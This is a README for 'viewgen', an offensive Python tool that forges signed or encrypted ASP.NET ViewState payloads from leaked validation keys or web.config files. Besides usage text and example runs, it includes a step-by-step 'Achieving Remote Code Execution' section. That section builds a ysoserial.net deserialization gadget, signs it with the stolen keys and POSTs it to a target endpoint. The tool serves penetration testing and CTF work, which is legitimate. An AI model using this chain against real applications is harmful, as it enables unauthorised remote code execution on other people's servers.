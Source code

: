# viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files
---------------

**Requirements**: Python 3

**Implemented**: AES, DES (Encryption) and MD5, SHA1/256/384/512 (Signatures)

**Not implemented**: 3DES (Encryption) and AES/3DES (Signatures)

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ viewstate -h
usage: viewgen [-h] [-c WEBCONFIG] [-m MODIFIER] [--decode] [--guess]
               [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-e]
               payload

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               viewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  -c WEBCONFIG, --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -e, --encrypted       ViewState is encrypted
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

1 - Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping x.x.x.x"
```

2 - Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

3 - Generate the signed/encrypted payload:

```bash
viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

4 - Send a POST request with the generated ViewState to the same endpoint

5 - Profit 🎉🎉

---------------

**Thanks**

- [@infosec_au](https://twitter.com/infosec_au)
- [@orange_8361](https://twitter.com/orange_8361)
- [@smiegles](https://twitter.com/smiegles)

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/
